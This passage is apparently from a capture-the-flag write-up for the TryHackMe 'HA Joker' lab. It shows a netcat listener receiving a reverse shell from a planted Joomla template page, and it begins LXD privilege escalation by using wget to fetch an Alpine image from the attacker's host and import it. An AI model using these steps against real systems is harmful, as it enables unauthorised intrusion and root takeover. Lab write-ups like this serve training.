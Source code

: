 [http://10.10.252.64:8080/templates/beez3/error.php](http://10.10.252.64:8080/templates/beez3/error.php)

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.252.64] 43184
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:46:07 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$
```

`www-data`

8.  This user belongs to a group that differs on your own group, What is this group?

`lxd`

10. Spawn a tty shell.

`SHELL=/bin/bash script -q /dev/null`

11. In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".

[https://linuxcontainers.org/lxd/introduction/](https://linuxcontainers.org/lxd/introduction/)

13. Research how to escalate privileges using LXD permissions and check to see if there are any images available on the box.

```
www-data@ubuntu:/$ cd ~
cd ~
www-data@ubuntu:/var/www$ wget http://10.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
<.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
--2020-10-08 11:58:36--  http://10.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3183740 (3.0M) [application/gzip]
Saving to: 'alpine-v3.12-x86_64-20201008_2055.tar.gz'
2020-10-08 11:58:38 (1.56 MB/s) - 'alpine-v3.12-x86_64-20201008_2055.tar.gz' saved [3183740/3183740]
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
<v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
www-data@ubuntu:/var/www$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | f2a9284c04f4 | no     | alpine v3.12 (20201008_20:55) | x86_64 | 3.04MB | Oct 8, 2020 at 6:59pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
www-data@ubuntu:/var/www$
```

